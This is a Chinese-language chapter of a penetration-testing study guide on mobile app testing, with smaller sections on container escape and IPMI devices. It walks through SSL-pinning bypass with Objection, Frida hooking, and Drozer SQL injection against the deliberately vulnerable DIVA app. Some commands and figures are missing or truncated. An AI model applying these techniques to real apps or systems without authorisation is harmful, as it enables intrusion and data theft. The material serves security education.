大多数移动渗透测试将集中在应用程序和外设连接上。不过，了解一些设备基础知识仍很有必要。平台硬件决定了可用的认证功能，例如可用于生物识别控制的摄像头和触摸传感器、加密引擎、存储、用户输入和外部设备连接。

移动设备通常采用**系统级芯片（SoC）**构建。SoC 是一种小型集成电路，将构成移动设备的常见组件（如 `CPU`、`GPU`、`RAM`、`ROM` 和 `modem`）连接在一起。

对于蜂窝通信，`SIM`（用户身份模块）卡是唯一且必需的，用于在蜂窝网络上识别和认证用户设备。认证通过后，用户的通信将被加密。在移动设备上设置 `SIM` 个人识别码（PIN）有助于在设备丢失或被盗时保护数据。

Android 和 Apple 都具备硬件安全功能，但由于生态系统的闭源特性，Apple 设备拥有独特的基于硬件的标准化。从 iOS 5 开始，最大的差异化特性之一是 **Secure Enclave（安全隔区）**。

Secure Enclave 与主处理器隔离，它使用专用处理器和内存区域、安全引导 `ROM` 以及专用 `AES` 引擎。`AES` 硬件引擎在文件写入或读取时进行解密和加密，密钥材料不会暴露给应用处理器或操作系统。Apple 利用此机制实施多项安全防护，以防止硬件篡改，并保护生物识别认证数据及其加密。

首先要了解的是，Apple 通过为每台设备生成唯一的 `UID`（唯一标识符）根加密密钥来保护设备特定的机密，并通过在同类所有设备间共享的 `GID`（组标识符）来保护软件特定的机密。这些密钥用于确保对敏感硬件（如内部 `SSD` 存储或触摸传感器）的更改会导致加密数据变得不可访问。即使使用 `JTAG` 或其他调试接口，这些密钥也无法恢复。


> **NOTE**  
> `JTAG` 代表 Joint Test Action Group（联合测试行动组）。`JTAG` 接口是一种用于调试和连接电路板上嵌入式设备的硬件机制。`JTAG` 是 IEEE Std 1149.1 中认可的行业标准。你可以从 IEEE 数字图书馆了解更多关于该标准的信息：[`ieeexplore.ieee.org`](https://ieeexplore.ieee.org)。

####### 移动操作系统概述

正如你所料，硬件的差异会导致操作系统的差异。这些差异将影响你使用的工具、查找信息的位置以及评估设备安全性的方式。为了理解这些差异，让我们深入了解 iOS 和 Android 操作系统。

###### iOS 操作系统安全

iOS 操作系统是专有的，iOS 及其变体仅在 Apple 移动设备（即 iPhone、iPad）上运行。iOS 基于 Darwin（[www.puredarwin.org](http://www.puredarwin.org)）。Apple 在操作系统中包含了许多安全措施。

例如，Apple 限制可用的服务和工具，并将整个操作系统分区作为只读加载到磁盘上，以保护操作系统内容。iOS 还通过 Execute Never（XN，不可执行）功能将内存位置标记为不可执行。内核会在允许应用程序访问可写且可执行的内存位置前，检查其是否具有 Apple 专用的动态代码签名权利。

大多数系统文件、资源和第三方应用程序作为非特权 `mobile` 用户运行。系统应用程序和守护进程使用经过数字签名的权利来执行特权操作。权利是允许应用程序在正常运行时参数之外进行认证的键值对。第三方应用程序通过声明的权利获得对用户信息、扩展或其他功能的访问权。如果用户授予应用程序访问权限，该授权会延伸至嵌入在应用程序中的扩展，但不延伸至由应用程序激活的扩展。

扩展是随应用打包的特殊签名可执行文件，为其他应用提供功能。这些扩展在应用安装期间被检测并映射以供使用。扩展是沙箱化的——它们在独立于应用程序的内存空间和容器中运行。扩展与激活它们的应用程序之间的通信，必须通过系统框架管理的进程间通信来处理。来自同一开发者的应用和扩展可以使用共享的 `App Group`，这将允许它们使用共享容器、偏好设置和钥匙串项目来共享内容。

此外，iOS 通过 Made for iPhone（MFI）计划验证经过审核的配件。当 MFI 设备通过 `Lightning`、`USB-C` 连接器或 `Bluetooth` 连接时，iOS 会使用来自配件的 Apple 提供证书，通过质询-响应协议对其进行验证。iDevice 中的自定义集成电路（IC）处理此交换。该 IC 确保只有经过批准的配件才能获得对设备的完全访问权限。如果不支持此认证，访问将仅限于一部分音频控制和功能。

###### Android 操作系统


####### Android 平台概述

Android 是由 Google 开发的基于 Linux 2.x 和 3.x 内核的开源移动操作系统（[`developer.android.com`](https://developer.android.com)）。Android 可运行在各种硬件上，如手机、电视、平板电脑和其他技术设备。图 7-1 描述了 Android 平台的主要组件。


**图 7-1** Android 平台

在移动 Android 设备上，用户在应用层进行交互。该层也是预装原生系统应用的所在地，如日历应用、相机和电子邮件。Android 应用程序使用 Java 或 Kotlin 进行开发。应用程序在虚拟机中运行其自己的进程（即 `ART` 的一个实例，即 Android Runtime 的缩写），就像它们是拥有独立主目录的独立用户账户一样。这提供了设备上所有其他正在运行的应用程序之间的隔离。Java 应用程序编程接口（`API`）框架向应用程序暴露 Android OS 的功能，以简化对应用程序数据和其他系统组件的访问。Android 应用程序的主要组件包括：

*   **活动** 用户可见的应用程序部分
*   **片段** 放置在活动中的一种行为
*   **意图** 用于在其他组件之间发送消息
*   **广播接收器** 允许应用程序接收来自其他应用的通知
*   **内容提供器** 一个 SQLite 数据库，以平面文件的形式存储数据
*   **服务** 用于启动意图、发送通知和处理数据

硬件抽象层（`HAL`）与设备的内置硬件组件进行交互。原生 C 和 C++ 库为使用原生代码开发的应用程序提供支持，例如 `HAL` 和 `ART`。内核为平台内的其他组件提供基础服务，如驱动程序、内存管理和显示功能。


**注意** `ART` 是原始运行时 Dalvik 虚拟机（`DVM`）的继任者。Android 5.0（`API` 级别 21）或更高版本不再使用 `DVM`。

Android 分区位于设备的内部存储或外部存储上。下表描述了大多数 Android 操作系统上创建的常见分区。


###### 移动应用程序概述

在本章中，我们将重点关注移动应用程序测试，因为这是知识面最广的领域。OWASP 移动安全项目旨在为移动应用程序的安全开发提供资源和指导。与 Web 应用程序一样，OWASP 提供了移动端十大风险，如图 7-2 所示。OWASP 还提供安全清单、测试指南以及其他关于测试和开发安全移动应用程序的信息。在此项目中，移动应用程序被分类为原生、Web、混合或渐进式 Web 应用程序。


**图 7-2** OWASP 移动端十大风险（2016）

原生应用程序可与操作系统紧密耦合，并直接访问摄像头、传感器和其他设备组件。要创建这些应用程序，开发人员使用针对操作系统专门定制的 SDK。对于 Android，这意味着使用 Java 或 Kotlin；对于 iOS，这意味着使用 Objective-C 或 Swift。由于原生应用与操作系统紧密耦合开发，除非使用特殊的开发工具进行移植，否则它们只能在单一操作系统上运行。

另一方面，Web 应用程序看起来像原生应用程序，但在设备的浏览器中像网页一样运行。这些通常用 HTML5 编写，并享有跨平台可移植性。然而，其功能依赖于与在线后端的通信。因此，这些通常可以使用我们在第 5 章中讨论的相同方法进行测试。

混合和渐进式应用程序则没那么简单。混合应用是 Web 和原生应用程序的结合。其组件使用 Web 到原生的抽象层来同时使用 Web 和原生功能。另一方面，渐进式 Web 应用像网页一样加载，但允许离线使用，并可根据平台访问有限的设备功能。这些通常具有本地组件，包括以 Web 应用程序清单形式存在的存储和应用程序配置。


**注意** OWASP 移动应用安全清单（[`github.com/OWASP/owasp-mstg`](https://github.com/OWASP/owasp-mstg)）描述了移动渗透测试期间需评估的常见关注领域，而 OWASP 移动安全测试指南（`MSTG`，[`owasp.org/www-project-mobile-security-testing-guide/`](https://owasp.org/www-project-mobile-security-testing-guide/)）详细阐述了各种平台的内部机制，定义了移动应用程序安全测试的标准，并概述了针对移动设备执行各种测试活动的程序和工具。

每个平台实现自己的应用程序格式。为 Android 开发的应用程序存储在 Android 应用程序包（`APK`）中。由于 Android 应用程序基于 Java，`APK` 采用 Java 归档（`JAR`）格式，并包含一个清单文件（`AndroidManifest.xml`），该文件以二进制 XML 格式嵌入内容。iOS 应用程序存储在 iOS App Store 包（`IPA`）格式中。`IPA` 是一个 ZIP 压缩归档文件，包含运行应用程序所需的所有代码和资源。内置目录结构包括位于 `Payload` 文件夹内的 `Application.app`，其中包含所有应用程序代码和资源；存储在 `iTunesArtwork` 文件夹中的应用程序图标；包含开发者标识信息、捆绑包标识符和其他应用程序识别数据的 `iTunesMetadata.plist`；以及存储在以创建它们所用工具包命名的目录中的扩展包。

应用程序运行时，会被沙箱化，以防止其访问其他应用程序的数据或对设备进行更改。每个应用程序都有自己的容器，如果它需要访问设备数据或其他应用程序的数据，必须使用操作系统提供的服务。在 iOS 中，此容器包括：

*   **捆绑包容器** 一个只读的、已签名的容器，应用程序及其所有资源驻留于此
*   **数据容器** 通常包括 `Documents` 目录（用于用户创建和可访问的内容）；`Library` 目录（用于存储任何用户不可访问文件的顶级目录，通常包括一个 `Application Support` 子目录，用于存放应用运行所需但应对用户隐藏的文件）；以及一个 `tmp` 目录（用于非持久化文件）
*   **iCloud 容器** 用于云功能启用

要测试应用程序，您需要安装并运行它，或者需要一台已安装该应用的设备来进行观察。如前所述，移动应用程序通常是与其他 Web 服务和 API 交互的 Web 客户端。因此，您可以在移动领域使用许多我们在第 3 章和第 5 章中讨论的技术。例如，评估通信通道使用情况的最佳方法是拦截流量并进行网络分析。使用 OWASP ZAP 或 Burp Suite 检查和操纵 Web 流量，搜索弱加密或已弃用的加密算法，或使用 Postman 评估 API 滥用。在某些情况下，您需要绕过证书绑定才能观察流量。让我们深入了解。


**注意** OWASP 的文章“证书和公钥绑定”解释了什么是证书绑定及其在移动平台背景下的工作原理：[`owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning`](https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning)

###### 测试 iOS


####### iOS 应用安全测试

OWASP 移动安全测试指南建议测试应用输入（包括 IPC、URL Scheme 和用户输入）、WebView 加载的内容、后端通信安全、本地数据存储保护，以及针对逆向/重打包的防御，以评估 iOS 应用的安全性。为此，你需要应用的副本或对已安装该应用的设备的访问权限。

Apple 使用代码签名来确保只有经过批准的应用程序才能在 iOS 上运行。代码可通过证书验证进行签名，这需要通过 Apple Developer Program（Apple 开发者计划）或 Apple Developer Enterprise Program（Apple 企业开发者计划）进行注册和身份验证。验证也通过代码签名验证完成，确保启动时链接的所有库都具有从 Apple 颁发的证书中提取的有效 Team ID。后者是一项保护措施，防止现有应用程序加载第三方代码。如果你拥有 Apple Developer 账户，你可以对 iOS 应用程序进行签名。请注意，如果你的行为被视为恶意，你的账户可能会被吊销，因此如果你计划进行任何安全研究，请使用与个人账户分开的账户。正如你从广泛的 iOS 安全控制中所想象的那样，在不越狱设备的情况下测试 iOS 应用程序是很困难的。

######## Cydia Impactor

Cydia Impactor 工具（[`www.cydiaimpactor.com`](http://www.cydiaimpactor.com)）是一个用于将 IPA 文件安装到 iDevice 的 GUI。例如，越狱工具被打包为 IPA，Impactor 工具用于将越狱工具传输到设备上进行安装。请按照以下步骤将应用安装到你的设备：

1.  在你的笔记本电脑上，下载适合你操作系统的最新 Cydia Impactor 安装文件。
2.  将移动设备连接到你的笔记本电脑。
3.  在你的笔记本电脑上，打开 Cydia Impactor 应用程序。如果 Cydia 识别出该设备，它将显示在顶部的下拉菜单框中。

    

4.  将适合你的设备和 iOS 版本的应用下载到你的笔记本电脑上。
5.  在你的笔记本电脑上，打开你常用的文件管理器 GUI，将应用程序文件拖拽到 Cydia Impactor 窗口中。系统将提示你输入 Apple ID 和密码以继续。出现提示时输入正确的电子邮件和密码，然后点击 OK 框继续。
6.  如果成功，Cydia Impactor 会将 IPA 安装到设备上，你将在移动设备桌面上看到该应用。

######## Cydia Package Manager

Cydia Package Manager 是“已越狱” iDevice 的应用商店。Jay Freeman (saurik) 是 Cydia 的最初创建者，通常在成功越狱后默认安装，例如 Yalu 和 Pangu 提供的越狱工具。Cydia 主屏幕提供对各项功能的访问，包括用户指南、可安装到设备的主题、用于实用软件包的仓库，以及从仓库搜索并安装你想要的软件包的能力。图 7-3 展示了 Cydia 主屏幕的外观示例。你可能想要从预配置的仓库中搜索并安装的一些基本工具包括 `Class Dump`、`Wget`、`OpenSSH` 和 `IPA Installer Console`。


**图 7-3**  Cydia Package Manager

######## Frida 动态分析

Frida 是一个模块化框架，旨在评估移动应用的安全性。Frida 不仅是一个 iOS 测试工具。它也可用于 Android、Windows、Linux、macOS 和 QNX 的测试。Frida 有三种测试模式：注入模式，即你生成到正在运行的程序中，或测试运行着 `frida-server` 的设备；嵌入模式，它使用嵌入到你的应用中的共享库（`frida-gadget`）进行远程交互；以及预加载模式。Frida 包含许多用于测试的有用工具，包括一个名为 `Stalker` 的代码追踪引擎，用于追踪线程并捕获执行的函数和指令。但它不是调试器。例如，它不会在运行时修改代码或暂停执行。它也不是反汇编器。让我们看一个用例。

要安装 Frida，你的笔记本电脑上应安装 Python 3.x 和 PyPI。然后运行：

```
$ pip3 install frida-tools
```

假设你使用的是 macOS，你可以使用 Frida 12.7.12 或更高版本（github.com/frida/frida/releases/latest）以针对通过 USB 连接的 iOS 13 设备。使用 Cydia，前往 Manage | Sources | Edit | Add，并输入 `https://build.frida.re` 以添加 Frida 的仓库。现在你可以输入命令 `frida-ps` 列出所有已安装的应用。

```
$ frida-ps -Ua
```


它应该会提示你通过 USB 连接设备。连接后，你应该会看到越狱设备上所有正在运行的进程列表。现在你可以启动要测试的应用程序，并使用 `frida-trace` 连接到它。首先使用 `frida-discover` 查找要追踪的调用：

```
$ frida-discover -U MyApplication
```


一旦找到感兴趣的 API 进行跟踪，你可以使用 `frida-trace`：

```
$ frida-trace -U MyApplication -i "TargetFunction"
```


`-i` 标志告诉它挂钩 C 函数。对于 Objective-C 函数，你应该使用 `-m` 标志。你可以查看进程，追踪特定进程中的 API，或使用 `-l` 标志指定注入脚本将其注入到你的应用程序中。Frida 通过提供的工具（如 `frida-ps` 和 `frida-trace`）来处理这些；不过，你也可以编写自己的工具，或使用来自 Frida CodeShare（codeshare.frida.re/）等仓库的社区贡献代码。


**注意**  要了解更多关于 Frida 的信息，包括其他用例、编写注入脚本的技巧以及关于 Frida API 的文档，请访问他们的文档宝库 [`frida.re/docs/home/`](https://frida.re/docs/home/)。

######## 使用 Objection 绕过 SSL Pinning

与外部服务器后端通信的应用程序有时会使用 SSL Pinning 来保护连接。如果一切都是加密的且固定到服务器的证书上，即使是中间人攻击也无法帮助你测试流量。你可以使用 Objection 工具（[`github.com/sensepost/objection`](https://github.com/sensepost/objection)）来绕过 SSL Pinning。就像 Frida 一样，你的笔记本电脑上应安装 Python3 和 PyPI，并使用 pip3 安装 objection：

```
$ pip3 install objection
```

然后你可以通过输入以下命令来探索你的 USB 连接设备：

```
$ objection -g AppName explore
```

Objection 命令 `ios sslpinning disable` 将尝试绕过 SSL Pinning，允许你使用 Burp 等工具检查流量。


######## 使用 MobSF 进行静态分析

Mobile Security Framework (MobSF)（[`github.com/MobSF`](https://github.com/MobSF)）是一个针对 Android、iOS 和 Windows 平台移动应用程序的一体化自动化渗透测试框架。在本练习中，我们将获取 DVIA IPA（[`github.com/prateek147/DVIA-v2`](https://github.com/prateek147/DVIA-v2)）并看看其内部结构。


**注意**  你可以在 [`mobsf.github.io/docs/#/`](https://mobsf.github.io/docs/#/) 阅读更多关于 MobSF 的信息，包括安装说明、要求和操作指南。

安装并运行 MobSF 后，打开你的网页浏览器并访问 [`127.0.0.1:8000`](https://127.0.0.1:8000)，这是默认导航页面。然后，点击 Upload & Analyze 按钮，找到 DVIA 的 IPA 文件并选择它，将文件上传到 MobSF 并开始静态分析过程。在启动 MobSF 的终端窗口中，你会注意到处理文件时的一般日志记录和错误消息。分析完成后，你将被带到静态分析页面，在那里你可以浏览静态分析的发现结果。图 7-4 显示了 DVIA 应用程序的 Information 和 Options 功能。


######## 图 7-4：使用 MobSF 进行静态分析

######## 属性列表

每个 iOS 应用程序都使用一个属性列表文件，通常使用 Unicode UTF-8 编码，内容采用 XML 结构。图 7-5 提供了一个由 MobSF 在静态分析期间恢复的 plist 文件示例。plist 用于存储关于应用程序的配置数据。这些文件容易遭受信息泄露攻击，并可能被修改以绕过应用程序限制。


**图 7-5** DVIA plist 文件

######## 二进制分析

MobSF 利用安全开发最佳实践评估 DVIA 应用程序的潜在漏洞。正如我们在本章前面讨论的，软件保证测试有助于确保软件没有缺陷，而二进制分析是评估已编译软件中缺陷的一种方法。在图 7-6 中，MobSF 识别出了 DVIA 使用的潜在不安全 API。这些 API 可能会给用户带来不必要的安全风险。


**图 7-6** DVIA 二进制分析漏洞


**注意** MobSF 确实为 Android 设备提供了动态分析选项；但是，目前不支持 iOS 设备的此功能。您可以从 MobSF GitHub 页面了解更多信息。

###### 测试 Android

我们在本章前面讨论过，为了获得更广泛的测试访问权限，需要越狱或 Root 设备。当您拥有 Android 设备的物理访问权限时，最可靠的连接方式是使用 Android 调试桥。Root 设备后，您可以安装并配置 SSH，并以 "root" 身份通过 SSH 连接到设备。ADB 随 Android Studio ([`developer.android.com/studio`](https://developer.android.com/studio)) 的安装一起提供，并具有许多选项。要查看命令选项列表，请在终端窗口中单独执行命令 `adb`。连接设备到笔记本电脑后，您可以使用以下命令列出设备或模拟器的存在：


要进入 Shell，请使用命令语法 `adb shell`。如果同时连接了多个设备和模拟器，您可以指定要使用的设备：

`adb -s <device name> shell`

连接到 Shell 后，如果设备已 Root，您可以使用 `su` 命令提升设备上的权限。然后您可以浏览文件系统，这类似于处于标准 Linux 环境中。操作系统的命令有限。例如，如果您想查看内核版本和发布日期，无法使用 `uname`，因为该命令不存在。但是，您可以在 `/proc/sys/kernel` 目录中找到该信息，并读取 `version` 和 `osrelease`，如图 7-7 所示。


**图 7-7** ADB：在 Android 中识别内核版本和发布日期

####### APK 和 DIVA

您可以从 [`github.com/payatu/diva-android`](https://github.com/payatu/diva-android) 下载 DIVA 的源文件，并在 Android Studio 中编译它。在 Android Studio 内部编译的说明如下：

1.  下载源文件并解压项目文件。
2.  从笔记本电脑启动 Android Studio 并导入项目文件。
3.  安装任何缺失的 Android Gradle 依赖项。
4.  接下来，从菜单栏构建 APK，选择 Build（构建），然后选择 Build APK（构建 APK）。如果成功，APK 将下载到您解压源文件的 `apk` 目录中。对我来说，该位置是 `diva-android-master\app\build\outputs\apk`。文件名应类似于 `app-debug.apk`。
5.  然后我们可以使用 ADB 将 APK 安装到已 Root 的设备上：

`adb -s <device name> install app-debug.apk`

####### 静态分析

APK Studio 应用程序是一个用于反汇编和重建 Android 应用程序的逆向工程框架。它提供图形用户界面、代码编辑器和 APK 签名功能，以便您在必要时修改代码并重新打包。APK Studio 可从 [`github.com/vaibhavpandeyvpz/apkstudio`](https://github.com/vaibhavpandeyvpz/apkstudio) 下载，并需要以下软件产品的最新版本：

-   Java Development Kit (JDK)
-   Apktool
-   Uber-apk-signer
-   adb（可选）和 zipalign（仅限 linux_x86）


**提示** 如果在打开 APK 时，在 APK Studio 控制台窗口中收到 "Unsupported major.minor version..."（不支持的主版本.次版本版本...）错误，可能的原因是您正在运行旧版本的 JRE。您应该尝试安装更新版本的 Java SDK 来解决此问题。

成功安装并配置 APK Studio 后，请跟随我们调查 DIVA 移动应用程序中的 "Hardcode Issues - Part 1"（硬编码问题 - 第 1 部分）。

1.  启动 APK Studio 并打开我们在之前的练习中使用 Android Studio 构建的 DIVA .apk 文件。
2.  目标是在源代码中查找硬编码信息。有时开发人员为了方便会硬编码敏感信息，例如密码。CWE-798 进一步描述了该问题，攻击者可以利用此弱点绕过身份验证。
3.  点击展开文件夹结构，直到找到 diva 文件夹，然后点击 `HardcodeActivity.smali`。
4.  按下 `ctrl-f` 并搜索 "secret"。您应该会定位到一个带引号的 const-string 值，可以将其代入等式中以完成练习。如果您使用的是 macOS，请使用 command 键 `command-f` 进行搜索。这将显示隐藏的密钥：


**注意** Smali 是一种汇编器，Smali 文件是在反汇编 Dalvik 可执行文件 (DEX) 时创建的，DEX 包含在 APK 中。

##### Drozer

Drozer 是一个用于 Android 的安全审计框架，可以帮助渗透测试人员识别漏洞并通过利用来验证它们。Drozer Agent 安装在 Android 设备上，控制台安装在您的笔记本电脑上。您可以从 [`github.com/mwrlabs/drozer`](https://github.com/mwrlabs/drozer) 下载 Drozer 社区版。用户指南（提供安装说明和使用 Drozer 的示例）可从 [`labs.mwrinfosecurity.com/tools/drozer`](https://labs.mwrinfosecurity.com/tools/drozer) 下载。

以下练习将检查 Drozer 用户指南中记录的一些用例。在您成功安装 Drozer Agent 和控制台后，请跟随我们使用 Drozer 评估 DIVA 移动应用程序。


**提示** 不幸的是，截至撰写本文时，在最新版本的 Drozer 中，PATH 检测问题仍然存在。此外，请确保 Android 设备的显示屏保持活动状态，且设备不会进入睡眠模式，以防止 Drozer Agent 过早终止连接。

1.  将 Java 路径放入主目录下的 `.drozer_config` 文件中。将 `<jdk ver>` 替换为您用于更新 JDK 的 Java 安装路径。对于 Windows，将是：


2.  在 Android 设备上启动 Drozer Agent。这可以在 "infrastructure mode"（基础设施模式）下完成，您提供一个可以为多个连接提供利用服务的远程端点；或在 "direct mode"（直接模式）下完成，您可以使用 `adb` 和端口转发连接到 Agent 的嵌入式服务器。对于此练习，我们将使用直接模式连接。这可以通过从 Android 设备打开 Drozer Agent 并点击应用窗口右下角的 "off" 按钮来完成。这将在端口 31415 上启动一个 TCP 监听器。如果已经是 "on" 状态，则可以跳过此步骤。

3.  接下来，使用 `adb` 从笔记本电脑设置到 Drozer Agent 的 TCP 转发：

`adb -s <device name> forward tcp:31415`


######## 4. 执行 `drozer.bat` 命令连接到控制台代理

```bash
drozer.bat console connect
```

######## 5. 验证控制台连接

如果控制台连接成功，光标应在 `dz>` 提示符旁闪烁。

- 使用 `list` 命令显示支持的完整命令列表
- 使用 `help` 命令查看特定命令的参数和帮助信息
- 执行以下命令获取设备上安装的完整包列表：

```bash
dz> run app.package.list
```


> **TIP**  
> Android 包遵循与 Java 类似的命名约定。Android 包名唯一标识应用程序（例如 `com.[company name].[package]`）。在内部文件系统中，这些包位于 `/data/data`。

######## 6. 查看目标包信息

目标包为 `jakhar.aseem.diva`。运行包信息工具以提取有用信息，如版本信息、数据存储位置（外部或内部）及应用权限。


######## 7. 分析攻击面

接下来查看应用程序的攻击面，了解暴露给设备上其他应用程序的组件。下图展示了用于识别攻击面的 Drozer 命令。

Android 应用程序像 iOS 一样在沙箱中运行。然而，通过 Android 内置进程间通信（IPC）机制暴露的漏洞可能泄露敏感数据并面临被攻破的风险。Android 的 IPC 机制包括 Intent、Binder 和 Broadcast Receiver（我们在本章前面已讨论过）。输出显示一个 Content Provider，我们可以进一步调查其组织结构以确定是否能提取信息。


######## 8. 查找并查询 Content URI

运行 `scanner.provider.finduris` 查找可查询的内容统一资源标识符（URI）。然后使用带有 `--vertical` 标志的 `app.provider.query` 查询内容，该标志垂直显示结果。

某些 Content Provider 可能通过外部存储共享信息，这可能提供访问 Android 沙箱环境外数据的途径。下图提供了扫描器和提供程序查询的命令语法及执行结果。


######## 9. SQLite 数据库与 SQL 注入

Android 应用程序使用 SQLite 数据库存储数据，可使用典型 SQL 查询命令进行查询。SQLite 数据库（`.db`）是存储在文件系统上的扁平文件。Content Provider 易受 SQL 注入影响，就像其他数据库一样。

`app.provider.query` 命令可用于评估查询数据库所用的 SQL 语句。`--projection` 或 `--selection` 选项可用于测试查询中“projection”或“selection”字段的 SQL 注入。

下图中的第一个命令在向用于从 notes 表选择数据的 projection 字段注入 `'` 时产生错误。第二个命令利用注入漏洞检索 `SQLITE_MASTER` 表，从而泄露数据库中的所有表。现在可以修改 `SELECT` 语句从数据库中的其他表检索数据。如果该应用在数据库的另一个表中存储了电子邮件地址、密码或其他敏感信息，这些数据可能面临泄露风险。


######## 10. 扫描注入漏洞

Drozer 还包含用于扫描 Content Provider 注入漏洞的命令 `scanner.provider.injection`。上一步利用的易受攻击的 Content Provider 如下图所示。


######## 使用 Postman 捕获 API 请求

Postman ([`www.postman.com/`](https://www.postman.com/)) 是一款用于构建和交互 API 的免费工具。该工具简化了拦截、操作和发送 API 请求所需的许多任务，这些请求是移动应用程序在移动应用测试过程中可能生成的。使用 Postman 需要创建账户。与 Burp Suite 类似，Postman 作为拦截代理使用，可独立工作或与 Burp Suite 配合枚举和攻击 API 端点。


> **EXAM TIP**  
> 针对考试问题，请阅读 Postman 网站上的教程了解其功能并熟悉其界面：[`learning.postman.com/docs/getting-started/introduction/`](https://learning.postman.com/docs/getting-started/introduction/)

######### 拦截移动设备请求

**1.** 将移动设备和笔记本电脑（或其他测试平台）连接到同一无线网络。

**2.** 在 Postman 中打开工作区，然后点击顶部菜单栏中的“Proxy Settings”按钮。


**3.** 在弹出窗口中，可指定代理端口，或使用默认端口并选择保存请求和响应的目标。默认端口为 5555，仅保存请求到 History。也可选择排除图片或 CSS 请求，并应用特定 URL 过滤器。

**4.** 将设备配置为使用笔记本电脑 IP 和端口 5555 作为代理。这通常在无线设置的“Modify Networks”选项下。

**5.** 现在，在移动设备上打开浏览器或执行移动 Web 应用程序时，应能在 Postman 中看到填充的调用记录。

Postman 有多个组件，包括请求集合、脚本运行器、可脚本化变量、用于上下文的 Environments、预请求脚本和测试。Collections 允许对相似的 API 请求进行分组。使用 Runner 运行集合时，本质上是按顺序发送所有这些请求。可结合变量用于模糊测试 API 中的 GET 或 POST 参数。此外，Runner 允许构建脚本化测试套件和工作流，并在 API 请求间传递数据。

Postman 中的变量类似于编程中的变量，我们将在第 11 章详细讨论。可在请求的 body、URL 或 headers 中引用变量。Environments 是键值对，允许将变量与测试中的特定上下文（如特定用户）关联。可使用预请求脚本测试 API 响应或设置变量及其他测试数据。收到 API 响应后，Postman 运行测试。测试脚本可解析响应组件并返回布尔结果。因此，Postman 运行预请求脚本、发送请求、获取响应，然后运行测试。


> **NOTE**  
> 有关 Postman 中 JavaScript 内置模块的更多文档，请访问 [`www.getpostman.com/docs/v6/postman/scripts/postman_sandbox_api_reference`](https://www.getpostman.com/docs/v6/postman/scripts/postman_sandbox_api_reference)。

######### 从头构建 API 请求

要从头构建 API 请求（[`learning.postman.com/docs/getting-started/sending-the-first-request/`](https://learning.postman.com/docs/getting-started/sending-the-first-request/)），需指定端点（请求 URL）、授权详情（Basic、OAuth 等）以及所需的 headers 或 body 详情。Body 详情可以是表单数据、原始数据、二进制数据或 form-url-encoded 数据。

Postman 在应用底部显示 API 请求的响应，如图 7-8 所示。也可获取已捕获的 API 请求并进行操作后运行。只需点击观察到的请求将其加载到右侧，在运行前进行操作即可。


**图 7-8** Postman 响应

#### 虚拟化与容器化系统


##### 虚拟化与容器化系统的测试

虚拟化与容器化系统的测试通常评估测试人员突破容器或客户机系统的能力。在这些情况下，测试受限于容器或客户机内部可用的资源，而非管理程序或宿主机中可用的资源。这可能涉及功能集的减少以及操作上的额外限制。在其他情况下，测试人员可能会在这些容器的设置或部署脚本中寻找不安全存储的凭据。


> **注意** 微软维护的文档阐述了虚拟机与容器的区别，有助于理解渗透测试方法上的差异：<https://docs.microsoft.com/en-us/virtualization/windowscontainers/about/containers-vs-vm>。同样值得一提的是 Docker 博客上 Mike Coleman 的文章“容器不是虚拟机”：<https://www.docker.com/blog/containers-are-not-vms/>

Hyper-V、vSphere、ESXi 和 Citrix 都是你可能会在虚拟化解决方案中听到的名称。虚拟化解决方案运行管理程序——或虚拟机监视器（VMM）——它可以运行在父操作系统中，也可以直接运行在硬件上。管理程序负责处理其托管的每个客户机的硬件虚拟化和资源管理。突破客户机系统并获得对管理程序（或其父操作系统）的访问权限，可能会根据宿主机隔离的实现和绕过方式，从而控制其他正在被虚拟化的系统。

在容器领域，你会听到 Docker 和 Kubernetes（或 K8s）等名称。它们运行在操作系统内部，在软件层面提供抽象，而不是模拟或仿真硬件组件的交互。在这些情况下，测试目标可能包括：在容器设置脚本中寻找未受保护的令牌或其他敏感信息、寻找突破容器的方法（容器逃逸），以及寻找滥用软件抽象层以影响其他容器的方法。

在这两种情况下，都要求测试人员首先在虚拟化系统或容器内获得特权访问，然后找到一个允许从该容器或客户机逃逸到宿主操作系统的漏洞，接着在父级或宿主操作系统中获得提升的特权，从而控制其他正在运行的虚拟系统或容器。如果容器或虚拟化客户机在父级或基础操作系统上以提升的特权运行，从隔离环境中逃逸将导致严重得多的失陷。这种“以 root 身份运行”的场景在 Docker 环境中尤为常见。Docker 通过 `--privileged` 标志实现这一点，例如：`docker run --rm -it --privileged ubuntu bash`。

Docker 使用 Linux cgroups（<https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt>）作为其容器隔离方法之一。在 cgroups v1 版本中，`notify_on_release` 特性会以 root 权限执行 `release_agent` 文件。这旨在清理被遗弃的 cgroups，但可被滥用于容器逃逸。这只是容器滥用的众多示例之一。你可以在此阅读 Trail of Bits 的完整分析：<https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/>


> **注意** 关于攻击 Kubernetes 和 Docker 环境有几篇优秀的博客文章，包括 Practical DevSecOps 的“像老板一样黑掉容器”：<https://www.practical-devsecops.com/lesson-4-hacking-containers-like-a-boss/> 以及 CyberArk 的“Kubernetes 渗透测试方法论”系列：<https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1>

#### 其他非传统系统

渗透测试人员可能会被要求评估消费级设备的安全性（这也被称为物联网，或 IoT），例如智能家居自动化设备、智能设备；或仅用于工业、医疗或其他商业环境中的专用系统。其中一些设备的测试方式可能与移动设备或其他无线设备相同，如第 4 章所述。网络和无线重放攻击、（不）安全信道测试、滥用默认或硬编码凭据，以及固件中的已知弱点，都是可能的攻击途径。

属于此类的商业系统的一个典型例子是使用智能平台管理接口（IPMI）协议的管理系统。这些系统是高价值目标，因为这些嵌入式控制器系统可能直接控制其宿主系统的硬件。例如，成功攻陷基板管理控制器（BMC）将允许测试人员重启、重装，甚至监控宿主系统的流量，而被观察的操作系统对此毫无察觉。Nmap 扫描可能会显示这些设备开启了 TCP 端口 22 上的 Dropbear sshd、TCP 端口 443 和 80 上的 lighttpd，以及 TCP 和 UDP 端口 623（IPMI RMCP）。能够识别这些设备并找到利用漏洞获取访问权限的方法，在你遇到这些设备时可能非常重要。


> **注意** 你可能希望进一步熟悉 IPMI 漏洞利用，以便在考试中识别它。Rapid7 博客上有一篇很好的文章：<https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/>

